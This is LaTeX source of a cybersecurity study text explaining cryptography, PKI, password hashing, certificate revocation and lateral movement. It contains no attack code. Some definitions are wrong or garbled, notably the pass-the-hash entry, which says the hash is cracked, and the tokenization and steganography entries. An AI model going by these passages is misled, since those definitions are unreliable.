    \item \textbf{Threat Intelligence Analysis:} They define how to analyze and respond to emerging cyber threats.
    \item \textbf{Vulnerability Management:} These SOPs outline the process for identifying, assessing, and mitigating vulnerabilities.
    \item \textbf{Access Control:} They cover procedures for managing user and device access, authentication, and authorization.
    \item \textbf{Security Monitoring:} SOPs specify how to monitor systems and networks for suspicious activities.
    \item \textbf{Data Protection:} They include guidelines for handling sensitive information and protecting digital assets.
    \item \textbf{Compliance:} SOPs help organizations adhere to relevant security regulations and standards.
\end{itemize}

%\runinhead{Allowlists and Denylists} In cybersecurity, allow lists (formerly known as \textit{"whitelists")} and denylists (formerly known as \textit{"blacklists")} are used to control access to resources and systems. Allowlists define what is permitted, while denylists define what is blocked.
\textbf{Allowlists}
\begin{itemize}
    \item \textbf{Definition:} An allowlist specifies the entities (users, applications, IP addresses, and more) that are explicitly permitted to access a resource or perform a specific action.
    \item \textbf{Approach:} It operates on a "deny by default, allow by exception" principle. Everything is first blocked unless it is explicitly listed as allowed.
    \item \textbf{Security:} Offers a higher level of security because only known and trusted entities are granted access.
    \item \textbf{Maintenance:} Requires more effort to maintain, as every new entity must be added to the list to be allowed.
    \item \textbf{Use Cases:} Suitable for scenarios where strict access control is required, such as controlling access to sensitive data or critical systems.
\end{itemize}
\textbf{Denylists}
\begin{itemize}
    \item \textbf{Definition:} A denylist specifies the entities that are blocked or restricted from accessing a resource or performing a specific action.
    \item \textbf{Approach:} Operates on a "allow by default, deny by exception" principle. Everything is permitted unless it is explicitly listed as blocked.
    \item \textbf{Security:} Easier to implement and maintain but offers a lower level of security, as it relies on identifying and blocking only known threats.
    \item \textbf{Maintenance:} Easier to maintain as you only need to add malicious entities to the list to block them.
    \item \textbf{Use Cases:} Suitable for scenarios where you need to block known threats such as malware or spam, but do not require strict control over all access.
\end{itemize}
In essence:
\begin{itemize}
    \item Allowlists are more secure but require more management.
    \item Denylists are easier to manage but offer less security.
\end{itemize}
Both allowlists and denylists are valuable tools in cybersecurity, and the choice of which to use depends on the specific security requirements of the system or application.

\runinhead{Public Key Infrastructure (PKI)} PKI, or Public Key Infrastructure, is a system that enables secure online communications and transactions using digital certificates and cryptography. PKI establishes trust and verifies the identity of individuals, devices, and services, by using a pair of cryptographic keys: a public key for encryption and a private key for decryption. PKI is essential to secure websites, email, documents, and other digital assets. Key concepts include:
\begin{itemize}
\item \textbf{Asymmetric Cryptography:} PKI relies on asymmetric cryptography which uses two mathematically related keys: \textbf{public key} and a \textbf{private key.}
\item \textbf{Digital Certificates:} These are electronic documents that bind a public key to a specific entity, such as a person, device, or organization. Certificates are issued by a trusted third-party called a \textit{Certificate Authority (CA).}
\item \textbf{Private Key:} This key is kep secret and hidden by the entity and is used to decrypt messages that are encrypted with their corresponding public key or to digitally sign documents.
\item \textbf{Public Key:} This key is freely available and can be used by anyone to encrypt messages or verify digital signatures created with the corresponding private key.
\end{itemize}

\runinhead{Encryption Levels} Encryption levels for full disk, partition, file, volume, and database all depend on the specific implementations and generally involve algorithms such as AES (Advanced Encryption Standard) (with varying key lengths such as 128-bit, 192-bit, or 256-bit) or other encryption methods. Full Disk Encryption (FDE) often uses XTS-AES, while volume encryption might use AES-128, AES-192, or AES-256. Database encryption can involve \textit{ Transparent Data Encryption (TDE)} or \textit{Column-Level Encryption (CLE).}
\textbf{Full Disk Encryption (FDE):}
\begin{itemize}
    \item \textbf{Encryption Algorithms:} Commonly uses AES-256-XTS, AES-128, or AES-CBC (Cipher Chain Block).
    \item \textbf{Key Lengths:} 128-bit or 256-bit AES keys.
    \item \textbf{Focus:} Protects all data on the entire hard drive.
    \item \textbf{Implementation Examples:} Hardware-based FDE (e.g., using OPAL and Enterprise standards), software-based FDE (e.g., BitLocker, VeraCrypt).
\end{itemize}
\textbf{Partition Encryption:}
\begin{itemize}
    \item \textbf{Encryption Algorithms:} Similar to FDE and use AES, XTS-AES.
    \item \textbf{Key Lengths:} Similar to FDE, encryption can vary.
    \item \textbf{Focus:} Protects data within a specific partition of a hard drive.
    \item \textbf{Implementation Examples:} BitLocker, FileVault, TrueCrypt, PGP.
\end{itemize}
\textbf{File Encryption:}
\begin{itemize}
    \item \textbf{Encryption Algorithms:} Depends on the implementation, can include AES and other algorithms.
    \item \textbf{Key Lengths:} Depends on the algorithm and implementation.
    \item \textbf{Focus:} Protects individual files or groups of files.
    \item \textbf{Implementation Examples:} EFS (Windows), fscrypt (Linux), file encryption within cloud-based storage.
\end{itemize}
\textbf{Database Encryption:}
\begin{itemize}
    \item \textbf{Encryption Algorithms:} Transparent Data Encryption (TDE), Column-Level Encryption (CLE), AlwaysEncrypted (SQL Server).
    \item \textbf{Key Lengths:} Depends on the chosen encryption method and algorithm.
    \item \textbf{Focus:} Encrypts data within a database management system (DBMS).
    \item \textbf{Implementation Examples:} Transparent Data Encryption (TDE) in SQL Server, Column-Level Encryption (CLE).
\end{itemize}

\runinhead{Symmetric Ciphers} Symmetric ciphers, also known as \textbf{symmetric-key algorithms}, use the same secret key for encryption and decryption. This makes them efficient and fast for encrypting large volumes of data.
\textbf{Types of Symmetric Ciphers}
Symmetric ciphers are generally categorized as either \textbf{stream ciphers} or \textbf{block ciphers}.
\textbf{Stream Ciphers}
\begin{itemize}
    \item \textbf{RC4:} RC4 (Rivest Cipher 4) is a stream cipher that generates a pseudorandom keystream and XORs it with the plaintext and creates ciphertext. It is known for its simplicity and speed, making it suitable for applications where rapid encryption and decryption are essential.
    \item \textbf{How it Works:} Stream ciphers encrypt data one bit or byte at a time. RC4 utilizes a Key Scheduling Algorithm (KSA) to initialize a state array, which is then used by a Pseudo-Random Generation Algorithm (PRGA) to produce the keystream. This keystream is then XORed with the plaintext to generate the ciphertext.
    \item \textbf{Considerations:} While once widely used, RC4 has been found to have significant vulnerabilities and is no longer recommended for strong security applications.
\end{itemize}
\textbf{Block Ciphers}
Block ciphers operate on fixed-size blocks of data, encrypting each block independently using the same key.
\begin{itemize}
    \item \textbf{DES:} The Data Encryption Standard (DES) is a block cipher that encrypts data in 64-bit blocks using a 56-bit key.
        \item \textbf{How it Works:} DES utilizes a 16-round Feistel network for encryption and decryption, involving a series of substitutions and permutation operations.
        \item \textbf{Considerations:} DES is considered outdated and vulnerable due to its short key length, making it easily crackable and susceptible to brute-force or Man-in-the-Middle (MiTM) attacks.
    \item \textbf{Blowfish:} Blowfish is a symmetric block cipher designed by Bruce Schneier. It uses a 64-bit block size and a variable-length key ranging from 32 to 448 bits.
        \item \textbf{How it Works:} Blowfish employs a 16-round Feistel cipher structure with key-dependent S-boxes and a complex key schedule.
        \item \textbf{Considerations:} Blowfish is considered secure for smaller files, but its 64-bit block size could be vulnerable to Sweet32 birthday attacks, particularly when encrypting files larger than 4GB.
    \item \textbf{3DES:} Triple DES (3DES), or Triple Data Encryption Algorithm (TDEA), applies the DES algorithm three times to each data block. This significantly increases the effective key length and security compared to DES.
        \item \textbf{How it Works:} 3DES uses three different keys, applying DES encryption with the first, DES decryption with the second, and DES encryption again with the third (for the strongest variant).
        \item \textbf{Considerations:} Although considered more secure than DES, 3DES is slower and more computationally intensive. It also remains susceptible to certain attacks, such as Sweet32. NIST has since deprecated 3DES and disallowed its use (except for processing already encrypted data) by the end of 2023.
\end{itemize}
\textbf{General Considerations for Symmetric Ciphers}
\begin{itemize}
    \item \textbf{Key Length:} The strength of a symmetric cipher is directly related to its key length. Longer keys offer greater resistance to brute-force attacks.
    \item \textbf{Block Size:} For block ciphers, the block size determines how much data is processed at each step.
    \item \textbf{Number of Rounds:} Many block ciphers, including DES and AES, employ multiple rounds of encryption operations. Increasing the number of rounds typically enhances the security strength of the cipher.
\end{itemize}
\textbf{ Modern Alternatives}
The Advanced Encryption Standard (AES) has replaced DES and 3DES as the standard symmetric encryption algorithm. It is also used by the United States Federal Government as their preferred encryption method (AES-256). AES offers vastly larger key sizes (128, 192, and 256 bits) and a more complex, efficient design. AES is generally recommended for modern applications because of its robust security and efficiency. Newer stream ciphers, such as Salsa20 and ChaCha20, are also considered far more secure alternatives to RC4.

\runinhead{Asymmetric Ciphers} Asymmetric ciphers, also known as \textit{Public-Key Cryptography)}, use pairs of mathematically related keys: a \textbf{public key that can be shared openly} and a \textbf{private key that must be kept private and secret}; examples of asymmetric ciphers include RSA, Diffie-Hellman key exchange, and Elliptic Curve Cryptography (ECC) where anyone can use the public key to encrypt a message, but only the holder of the corresponding private key can decrypt it. Points on asymmetric ciphers:
\begin{itemize}
    \item \textbf{RSA:} RSA, or Rivest-Shamir-Adelman cipher is one of the most widely used asymmetric ciphers, based on the difficulty of factoring large prime numbers.
    \item \textbf{Diffie-Hellman (DH):} Primarily used for key exchange, allowing two parties to securely establish a shared secret key over a public channel.
    \item \textbf{Elliptic Curve Cryptography (ECC):} Offers similar security to RSA but with smaller key sizes, making it more efficient for applications with limited bandwidth.
\end{itemize}

\runinhead{Trusted Platform Module (TPM)} A Trusted Platform Module (TPM) is a specialized chip on a computer's motherboard designed to enhance security by storing cryptographic keys used for encryption and decryption. It acts as a secure vault for sensitive information, such as encryption keys, passwords, and certificates. TPMs are tamper resistant and help ensure the integrity of the platform, particularly during the boot process.
\textbf{Core Functions}
\begin{itemize}
    \item \textbf{Secure Key Storage:} TPMs store cryptographic keys (such as those used for encryption) securely, preventing them from being accessed by unauthorized software or users.
    \item \textbf{Platform Integrity:} TPMs can verify the integrity of the system's hardware and software, ensuring that the boot process starts from a trusted state and hasn't been tampered with.
    \item \textbf{Cryptographic Operations:} TPMs can perform cryptographic operations such as  encryption, decryption, and hashing, which are essential for security functions.
    \item \textbf{Random Number Generator:} TPMs can also generate random numbers, which are used in various security protocols.
\end{itemize}
\textbf{How it Works}
\begin{itemize}
    \item \textbf{Hardware-Based Security:} TPMs are hardware components that make them more resistant to software-based attacks than purely software-based security solutions.
    \item \textbf{Integration with OS and Applications:} TPMs work in conjunction with the operating system and applications to provide security features.
    \item \textbf{Trusted Boot:} One of the main uses of TPMs is in secure boot, where the TPM verifies the integrity of the boot process and ensures that the operating system hasn't been tampered with or modified in any way.
    \item \textbf{Encryption:} TPMs can be used to encrypt hard drives, protect files and folders, and enhance other security features such as a VPN (Virtual Private Network and remote access.
\end{itemize}
In essence, a TPM is a hardware security module that acts as a trusted anchor for a computer system, enhancing its security and protecting sensitive information.

\runinhead{Secure Enclave} A secure enclave in computer networks refers to an isolated hardware-based environment within a computing system designed to protect sensitive data and code. It acts as a \textit{ Trusted Execution Environment (TEE)} with minimal attack surface, where critical operations are carried out in a secure and isolated manner. This isolation helps prevent unauthorized access, modification, or disclosure of sensitive information, even if the main operating system or other parts of the system are compromised.

\runinhead{Steganography} Steganography is the practice of concealing a message within another message or physical object, making the hidden message imperceptible to an observer without special knowledge. It is essentially "covered writing," using the term from Greek roots, and can involve hiding data in various formats such as images, audio, or even text. It is basically a hidden text or meaning obscured under a primary means such as an image or audio file, and is normally not something the human eye can immediately see.
\textbf{Core Concept:} Steganography aims to hide the very existence of a message, as cryptography does and focuses on making a message unreadable in human format without a key. Examples include:
\begin{itemize}
    \item \textbf{Digital Steganography:} Hiding a secret message within an image file by altering the least significant bits of the color data, or embedding data within the metadata file.
    \item \textbf{Physical Steganography:} Using invisible ink, microdots, or writing behind stamps to conceal alternative, second hidden, embedded message.
\end{itemize}
\textbf{How it Works}
\begin{itemize}
    \item \textbf{Cover Object:} The original file or object that will contain the hidden message.
    \item \textbf{Secret Message:} The data that need to be hidden.
    \item \textbf{Steganographic Algorithm:} The method used to embed the secret message within the cover object.
\end{itemize}
\textbf{Common Techniques}
\begin{itemize}
    \item \textbf{LSB Replacement:} Replacing the least significant bits of the cover object with the bits of the secret message.
    \item \textbf{Word/Letter Substitution:} Hiding a message by strategically placing words or letters within a larger text.
\end{itemize}
\textbf{Key Differences in Cryptography}
\begin{itemize}
    \item \textbf{Concealment of existence versus readability:} Steganography aims to hide the fact that a message exists, while cryptography focuses on making the message "unlockable" or unreadable.
    \item \textbf{Techniques:} Steganography uses techniques to embed data within a cover object, while cryptography uses encryption algorithms.
    \item \textbf{Application:} Steganography is often used for covert communications, while cryptography is used to protect the confidentiality and integrity of original messages.
\end{itemize}

\runinhead{Tokenization} Tokenization is a data security process that replaces sensitive unique identifiers with sensitive information called \textbf{tokens}. These tokens have no exploitable value and can be safely stored, reducing the risk of data compromise. It is a form of data protection that replaces sensitive data with a random placeholder, which can then be used in place of the original data. A more detailed explanation is offered below.
\textbf{In Data Security:}
\begin{itemize}
    \item \textbf{Replacing Sensitive Data:} Tokenization replaces sensitive data such as credit card numbers, social security numbers, or personally identifiable information with random nonsensitive tokens.
    \item \textbf{No Reversible Process:} Unlike encryption, tokenization is not mathematically reversible; therefore, it technically cannot be reverse-engineered. It does not use a key to decrypt the data back to its original form.
    \item \textbf{Security and Convenience:} Tokenization enhances security by keeping the original sensitive data in a secure vault while using tokens to process transactions or store data.
    \item \textbf{Examples:} Tokenization is widely used in payment processing, where credit card numbers are replaced with tokens during transactions. It is also used for mobile and digital cryptocurrency wallets, and in e-commerce.
    \item \textbf{Benefits:} Tokenization reduces the risk of data or PII (Personally Identifiable Information) breaches, simplifies compliance with data security and privacy regulations, and improves transactional processing speeds and conveniences.
\end{itemize}

\runinhead{Data Masking} Data masking is the process of obscuring sensitive data to protect while still allowing use for other purposes, such as testing or analysis. Sensitive information is replaced with realistic but fictitious data, preventing unauthorized access while maintaining the usability of the data. A more detailed explanation is offered below.
\begin{itemize}
    \item \textbf{What it Protects:} Data masking protects sensitive information such as real names, addresses, social security numbers, credit card numbers, and other confidential data.
\end{itemize}
\textbf{How it Works}
\begin{itemize}
    \item \textbf{Replacing sensitive data:} Instead of storing or using real sensitive data, data masking techniques replace it with fictional or altered data.
    \item \textbf{Maintaining usability:} While the data is masked, it still retains some characteristics of the original data, allowing realistic testing and analysis.
    \item \textbf{Types of Masking:}
    Data masking can be achieved through the various methods, including:
        \item \textbf{Substitution:} Replacing real data with similar, but fictitious data.
        \item \textbf{Shuffling:} Randomizing the order of characters within a field of characters.
        \item \textbf{Redaction:} Completely overwriting sensitive data with placeholder characters.
        \item \textbf{Encryption:} Replacing data with ciphertext that requires a key for decryption.
        \item \textbf{Hashing:} Generating a fixed size value from the original data, making it irreversible.
\end{itemize}
\textbf{Use Cases}
Examples include:
\begin{itemize}
    \item Replace a customer's real name with a randomly generated name from a predefined list.
    \item Mask social security numbers with asterisks (e.g. 123-45-****), while still retaining the last four digits for identification.
    \item Using encryption to protect sensitive data while at rest or in transit.
    \item Replace employee salaries with the average salary for their role.
\end{itemize}

\runinhead{Hashing} Hashing is a process that converts data of any size into a fixed-size string of characters using a mathematical function, often called a \textbf{ hash function}. This process is generally irreversible because it is extremely difficult to retrieve the original data from the resulting hash. Hashing is widely used in cyber security and ethical hacking for password storage, data integrity checks, and digital signatures. A more detailed explanation is offered below.
\begin{itemize}
    \item \textbf{Hash Function:} This is the algorithm that takes the input data and transforms the data into a unique fixed-size string called a \textit{hash} or \textit{hash value}.
    \item \textbf{One-Way Function:} A key characteristic of hashing is that it is a one-way function. This is because it is computationally infeasible to reverse the process and obtain the original data from the hash.
    \item \textbf{Data Integrity:} Hashing is used to verify data integrity. If the hash of a file or message changes, it indicates modification of data.
    \item \textbf{Password Storage:} Instead of storing passwords in plaintext (which is highly vulnerable), systems store the hash of the password. When a user enters their password, it is hashed and compared to the stored hash, ensuring secured authentication.
    \item \textbf{Digital Signatures:} Hashing is used to create digital signatures. The hash of a document is encrypted with the sender's private key, creating a signature that verifies the document's origin and ensures it has not been tampered with.
\end{itemize}
Some examples include:
\begin{itemize}
    \item Common hashing algorithms include MD5, SHA-256, and bcrypt.
\end{itemize}

\runinhead{Salting (Salts)} Salting is a security measure used when storing passwords. It involves adding a random, unique string of characters (the "salt") to a user's password before it is hashed and stored. This makes it much harder for attackers to crack passwords, even if they gain access to the hashed password database, by preventing the use of pre-computed hash tables (such as rainbow tables) and making it necessary to compute each hash individually, which proves to computationally infeasible many times. A more detailed explanation is offered below.
\begin{itemize}
    \item \textbf{Salting is a cryptographic technique:} It is a method to add extra randomness to the password storage process and is considered a defense-in-depth or a layered security approach.
    \item \textbf{Hashing:} The salt is combined with the password and this combined string is then passed through a hashing algorithm (such as SHA-256).
    \item \textbf{Example:} If two users have the password "password" but different salts applied, their hashed passwords will be completely different.
    \item \textbf{Storing the salt:} The salt is stored with the hashed password, allowing the system to retrieve the salt when verifying a user's logon attempt.
    \item \textbf{Login process:} When a user logs in, the system retrieves the salt associated with their username, combines it with the password they entered, hashes the combined string, and compares it to the stored hash.
\end{itemize}

\runinhead{Digital Signature (DS)} A digital signature is a mathematical scheme that verifies the authenticity and integrity of digital messages or documents. It is essentially a secure way to prove that a document came from a specific sender and has not been tampered with. Digital signatures are used in various applications, such as emails, sensitive PDFs, financial transactions, and software distribution. A detailed explanation is offered below.

\section{How it Works}

\subsection{Public-Key Cryptography}
\begin{itemize}
    \item Digital signatures rely on public-key cryptography, also known as \textbf{asymmetric cryptography}, that use a pair of keys: a \textbf{ private key for signing} and a \textbf{public key for verification}. 
\end{itemize}

\subsection{Hashing}
\begin{itemize}
    \item Before signing, the document is first "hashed," creating a unique digital fingerprint (a fixed-length string).
\end{itemize}

\subsection{Signing} 
The sender uses their private key to encrypt the hash of the document, creating the digital signature.

\subsection{Verification}
The recipient uses the sender's public key to decrypt the signature and compare it to a new hash calculated from the received document. If the hashes match, it confirms the document's authenticity and integrity.

Often, digital signatures are linked to digital certificates, which contain the sender's public key and identity information. These certificates, issued by trusted third parties (Certificate Authorities (CAs), further enhance the trustworthiness of the signature.

\textbf{Note:} \textit{Digital signatures are legally binding. In many jurisdictions, digital signatures are legally recognized as equivalent to handwritten signatures.}

\runinhead{Key Stretching} Key stretching is a cryptographic technique used to strengthen weak keys, usually passwords, by making them more resistant to brute-force and dictionary attacks. It involves repeatedly applying a cryptographic function to the key, effectively increasing its length and complexity, making it more computationally expensive to crack. A detailed explanation is offered below.
\begin{itemize}
    \item \textbf{Weak Keys:} Passwords, especially short or simple ones, are considered weak keys because they can be easily guessed or cracked by attackers.
    \item \textbf{Key Stretching Process:} Key stretching algorithms, such as \textbf{PBKDF2} or \textbf{Argon2}, take a weak key (for example, a password) and apply a hashing function multiple times. This process is repeated hundreds or thousands of times.
    \item \textbf{Increased Computational Effort Required:} The repeated hashing significantly increases the time and computational resources needed to crack the key. Even if an attacker has access to the stretched key, they would need considerably more time and processing power to try and reverse engineer the process. This feat, in turn, also means that the attacker needs to be a specialist in reverse engineering software, programs, and cryptography, which is very complex to master.
\end{itemize}

\section{Examples of Key Stretching Algorithms:}
\begin{itemize}
    \item \textbf{PBKDF2:} Password-Based Key Derivation Function 2, a widely used key stretching algorithm, which combines hashing with salting.
    \item \textbf{Argon2:} A more recent and secure algorithm, known for its memory-hardness, which means that it requires significant memory to compute.
\end{itemize}
\textbf{Salting:} Key stretching often incorporates salting, which involves adding a random value (salt) to the key before hashing. This adds another layer of complexity and makes it harder for attackers to use precomputed hash tables of common passwords.

\runinhead{Pepper} A pepper is a secret fixed value (like a long, random string) added to a password before it is hashed. Unlike a salt, which is stored with the password hash, a pepper is kept separate and often hardcoded in the application or stored securely elsewhere. This adds additional layers of security, making it more difficult to crack even if access to the password database has occurred. A detailed explanation is offered below.

\section{Salting Versus Peppering}
Both salting and peppering are techniques used to enhance password security by making it more difficult to crack passwords using precomputed hash tables. Salting adds a random string to the password \textit{before} hashing, and this salt is stored alongside the hashed password in the database. Peppering, on the other hand, involves adding a secret, fixed value (the pepper) to the password, but this pepper is not stored with the password hash.

\section{How it Works}
When a user enters a password, the system combines it with the pepper (using the same method used during account creation) and then hashes it. The resulting hash is compared to the stored hash.

\textbf{Security Benefits:} If an attacker gains access to the database, they will have the salts and hashed passwords, but they will still need the pepper to crack the passwords. If the pepper is securely stored and is not easily accessible, it can significantly increase the difficulty and processing power needed to crack the password.

%\textbf{Example:} Imagine that a website uses a pepper such as \texttt{"5965937f-47d8-4f9b-92e4-802972f47650."} When a user with the password "\texttt{password123"} logs in, the system might combine it with the pepper (e.g. \texttt{"password1235965937f-47d8-4f9b-92e4-802972f47650"}) and then hash it. The resulting hash is then compared with the stored hash.

Implementation: While peppering offers good security, it is not commonly implemented along with salting. Some hashing libraries might not directly support it. The main downside is that the pepper needs to be managed securely and accessible to the system. This is due to historical standards in that salting has been formally recommended by the NIST, OWASP, and cryptographic libraries for years. Additionally, hashing libraries (such as bcrypt, PBKDF2, Argon2) often automatically handle salting-but \textbf{do not} include peppering functionality by default.

\runinhead{Blockchain} Blockchain technology is a \textbf{decentralized distributed digital ledger that securely records information across computer networks).} Essentially, it is a shared database where data are secured in "blocks" that are linked together in a chain using cryptography. This structure makes the data transparent, immutable (which means that it cannot be altered), and resistant to tampering attempts. Key features of blockchain include:
\begin{itemize}
    \item \textbf{Decentralization:} Unlike traditional databases that are controlled by a single entity, blockchain networks are spread over multiple computers (nodes). This eliminates a single point of failure and makes the network more resilient to attack.
    \item \textbf{Immutability:} Once a transaction or data is recorded in a block and added to the blockchain, it becomes virtually impossible to change or delete it. This is achieved through cryptographic hashing, where each block contains a unique digital fingerprint (hash) that is linked to the previous block. Any alteration would change the hash, alerting the network to the tampering attempt.
    \item \textbf{Transparency:} All participants in the blockchain network with permissioned access can see the same information at the same time. This creates a transparent and auditable trail of transactions and data, fostering trust and accountability.
    \item \textbf{Consensus:} Blockchain systems rely on consensus mechanisms to validate transactions and ensure agreement among network participants. Common mechanisms include Proof of Work (PoW) and Proof of Stake (PoS).
    \item \textbf{Cryptography:} Blockchain uses cryptographic techniques, such as hash functions and public-key cryptography, to secure data, authenticate users, and verify transactions.
\end{itemize}
\textbf{How it Works}
\begin{itemize}
    \item \textbf{Transaction Initiation:} A user initiates a transaction (e.g., sending cryptocurrency, transferring data) and is broadcast to the network.
    \item \textbf{Validation:} Nodes in the network validate the transaction, checking its authenticity, and verifying that the sender has the necessary permissions or funds.
    \item \textbf{Block Creation:} Validated transactions are grouped together into a "block." This block includes a cryptographic hash of the previous block, creating a secure link in the chain.
\end{itemize}

\runinhead{Certificate Authority (CA)} A Certificate Authority (CA) is a trusted third-party entity that issues digital certificates that are used to verify identities of websites, organizations, and individuals online. Essentially, CAs act much like a passport agency and verifies identities before traveling abroad. CAs ensure secure online communications by vouching for the authenticity of digital identities. A detailed explanation is offered below.
\textbf{What They Do}
\begin{itemize}
    \item \textbf{Verification:} CAs verify identities of requesting certificates to prove they are who they claim to be.
    \item \textbf{Certificate Issuance:} They issue digital certificates that contain information like the certificate holder's public key, validity period, and the CAs signature.
    \item \textbf{Chain of Trust:} CAs play a crucial role in establishing a chain of trust. Root CAs are at the top, and intermediate CAs (also known as \textit{policy CAs)} are often used to issue certificates to end-users or other subordinate CAs.
    \item \textbf{Certificate Revocation:} CAs also manage the revocation of certificates when they are no longer valid.
 \end{itemize}
\textbf{Types of Certificates}
\begin{itemize}
    \item \textbf{SSL/TLS Certificates:} Used to secure websites and enable HTTPS connections,ensuring that communications between a browser and a website is encrypted.
    \item \textbf{Code Signing Certificates:} Used to dogitally sign software and other code, proving its authenticity and preventing tampering.
    \item \textbf{Email Certificates:} Used to secure and authenticate emails using S/MIME, ensuring the sender's identity and protecting the email's sensitive content.
    \item \textbf{Document Signing Certificates:} Used to digitally sign documents, proving their authenticity and preventing tampering.
\end{itemize}
\textbf{Why They Are Important}
\begin{itemize}
\item \textbf{Security:} CAs ensure secure communications online by verifying the identity of websites and other entities.
\item \textbf{Trust:} They establish trust in online transactions and communications, allowing users to confidently interact with websites and services.
\item \textbf{Compliance:} CAs help organizations comply with security standards and regulations.
\end{itemize}
\textbf{Public vs. Private CAs}
\begin{itemize}
    \item \textbf{Public CAs:} Widely trusted and recognized by web browsers and operating systems, allowing them to issue certificates that are automatically trusted by requesting users.
    \item \textbf{Private CAs:} Used for internal purposes within an organization, where the CAs certificates are not automatically trusted by external requesting parties.
\end{itemize}

\runinhead{Certificate Revocation List (CRL)} A Certificate Revocation List (CRL) is a list of digital certificates that have been revoked by a Certificate Authority (CA) before their validity period expires. Essentially, it is a "blacklist" of certificates that are no longer considered valid. CRLs are used in Public Key Infrastructure (PKI) systems to ensure the security of online transactions by preventing the use of compromised or otherwise invalid certificates. A more detailed explanation is offered below.
\textbf{Purpose:}
CRLs help to maintain the security of online communications by preventing the use of revoked certificates. If a certificate is compromised (for example, the corresponding private key is stolen), the CA can revoke it, and the CRL ensures that systems using PKI will not accept it.
\textbf{How it Works}
A CA regularly publishes a CRL containing the serial numbers of all revoked certificates. When a system needs to verify a certificate, it first checks the CRL to see if the certificate is listed. If it is shown as listed, the certificate is deemed invalid and rejected.
\textbf{Regular Updates}
CRLs are not static; they are periodically updated by the CA to reflect the latest revocations. This ensures that the list remains up-to-date and accurate.
\textbf{Delta CRLs}
In some cases, delta CRLs are used to further optimize this revocation process. Delta CRLs contain only the changes (new revocations) since the last full CRL, making them smaller and faster to download. Delta CRLs are akin to an incremental backup versus a full backup set.
\textbf{Alternatives}
While CRLs are a common and widely used method for revocation checking, another method called \textit{Online Certificate Status Protocol (OCSP)} is also used. OCSP provides near-real-time revocation information and queries an online responder. Both CRLs and OCSP can be used within a fully functional PKI infrastructure.

\section{Importance of CRLs}
Without CRLs or similar revocation checking mechanisms, a system would not be able to determine if a certificate has been revoked before its expiration date, potentially leading to security vulnerability exposure.

\hrulefill

\runinhead{Online Certificate Status Protocol (OCSP)} The OCSP, or Online Certificate Status Protocol, is a method to check the revocation status of digital certificates, specifically X.509 certificates used in SSL/TLS connections. It allows clients to verify in real-time if a certificate is still valid or has been revoked, rather than relying on older, potentially outdated Certificate Revocation Lists (CRLs). A more detailed explanation is offered below.

\section{What it Does}
    \begin{itemize}
        \item \textbf{Real-time validation:} OCSP provides immediate feedback on a certificate's status, unlike CRLs which can be less up-to-date.
        \item \textbf{Security:} Ensures that secure connections are established only with valid certificates, protecting against compromised or revoked certificates.
        \item \textbf{Efficiency:} OCSP can be more efficient than CRLs as it involves smaller data transfers and less processing overhead.
    \end{itemize}
\section{How it Works}
\begin{itemize}
    \item \textbf{1. Request:} A client (like a web browser) sends an OCSP request to a Certificate Authority (CA) or designated responder, containing the certificate's serial number.
    \item \textbf{2. Response:} The CA or designated responder sends back a digitally signed response indicating the certificate's status: "good" (valid), "revoked," or "unknown."
    \item \textbf{3. Verification:} The client verifies the response's digital signature using the CAs public key to ensure authenticity and that the response has not been tampered with.

\end{itemize}
\textbf{OCSP Stapling}
\begin{itemize}
    \item A more fficient variation of OCSP where the server, not the client, proactively check the certificate's status and caches the response.
    \item The server then indicates this cached, digitally signed response in its TLS handshake with the client, reducing the need for the client to make separate OCSP request.
\end{itemize}

\section{Horizontal vs. Vertical Lateral Movement}
In cybersecurity and ethical hacking and attacking, lateral movement refers to the techniques attackers use to move deeper into a network after gaining initial access. It is essentially the process of expanding their reach, control, and searching for sensitive data or high-valued assets within the target network's environment.

This movement can be categorized into two types:
\subsection{1. Horizontal Lateral Movement}
\begin{itemize}
    \item Definition: Involves moving between systems or user accounts at the same level of privilege.
    \item \textbf{Goal:} To expand reach and gain access to more systems or data within the same security domain.
    \item \textbf{Examples:}
    \begin{itemize}
        \item An attacker compromises a standard user account on one workstation and then uses that access to move to another workstation with another standard user account.
        \item Using stolen credentials, an attacker might move from one file server to another or access different sections of a database.
    \end{itemize}
\end{itemize}


\begin{figure}[h]
    \centering
    \includegraphics[width=0.5\linewidth]{horizontal-movement.png}
    \caption{Process diagram depicting horizontal lateral movement in a network}
    \label{fig:placeholder}
\end{figure}

\begin{figure}[H]
    \includegraphics[width=0.5\linewidth]{horizontal-movement.png}
    \caption{Process diagram depicting horizontal lateral movement in a network}
    \label{fig:placeholder}
\end{figure}
    \begin{itemize}
        \item \textbf{Pass-the-Hash (PtH) Attack:} Attackers steal a password hash (a representation of a password), crack it offline to reveal its plaintext password, and then uses that password to impersonate the legitimate user and authenticate to other systems (as if the legitimate user) without needing the actual passwords that is commonly used in Windows environments.
        \item \textbf{SSH (Secure Shell) Hijacking:} Attackers may steal SSH keys or hijack existing SSH sessions to move between Linux, Unix, and Windows systems.
        \item \textbf{Trust Relationship Exploitation:} In networks with established trust between systems, for example, linked domains, attackers can exploit those relationships to move laterally without the need to re-authenticate.
    \end{itemize}


\section{2. Vertical Lateral Movement (Privilege Escalation)}
\begin{itemize}
    \item \textbf{Definition:} Involves escalating privileges or moving from a lower level of access to a higher level of access within a system or network. It aims to gain greater control and access to more deeply embedded sensitive information.
    \item \textbf{Goal:} To gain administrative access, root privileges, or access to sensitive data and systems with higher authority.


\begin{figure}[h]
    \centering
    \includegraphics[width=0.5\linewidth]{vertical-movement.png}
    \caption{Process diagram depicting vertical lateral movement in a network}
    \label{fig:placeholder}
\end{figure}

    \item \textbf{Examples:}
    \begin{itemize}
        \item An attacker gains access to a standard user account and then exploits a software vulnerability to elevate their privileges to an administrator account.
        \item Exploiting a vulnerability in an outdated operating system or service to gain system-level control.
        \item An attacker compromises an application and uses its vulnerabilities or misconfigurations to gain administrative access to the underlying BIOS of the operating system.
        \item Using a legitimate user's credentials obtained successfully via a social engineering attack, such as phishing, an attacker can then leverage other vulnerabilities or misconfigurations to escalate privilege within the target system.

    \end{itemize}


\section{Understanding the Relationship Between the Two}
\begin{itemize}
    \item Lateral movement often involves both horizontal and vertical aspects.
    \item Attackers often begin with a horizontal move to expand their footprint and gather information about the target network, including potential targets and vulnerabilities.
    \item After expanding horizontally, they might then use vertical lateral movement to escalate privileges on specific target systems or accounts, granting them deeper access to sensitive data or critical infrastructure.

\end{itemize}

